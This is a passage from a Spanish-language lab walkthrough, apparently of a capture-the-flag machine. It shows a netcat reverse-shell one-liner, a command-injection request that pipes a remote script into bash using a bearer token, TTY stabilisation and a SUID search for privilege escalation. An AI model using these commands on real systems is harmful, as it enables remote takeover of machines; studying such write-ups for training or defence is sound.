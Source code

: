 ```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.6 443 >/tmp/f
```

```
# python -m http.server 80
```

Lo siguiente que debemos hacer es mandarle esta petición a la máquina víctima y ponerlos en escucha con netcat por el puerto 443

```
# curl -s 'http://10.129.246.38:3000/api/logs?file=;curl%20http://10.10.16.6/cmd|bash' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NjdhYjMyYjU3YmZiNzA0N2EzZTJmZDAiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImFzZGZAdGVzdC5jb20iLCJpYXQiOjE3MTkzNDAzMjB9.L5KCGvWNkVLN7BEUPAUczQTGYP-xDoXGOMzsbovgt_k' | jq -r
```

```
# nc -nlvp 443
```

Obtenemos las `dimensiones` de nuestra `pantalla` 

```
# stty size
45 183
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```
## Privilege Escalation

Buscando archivos con permisos `SUID` el que más me llama la atención es `/opt/count`

```
# find / -perm -4000 2>/dev/null
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/opt/count
```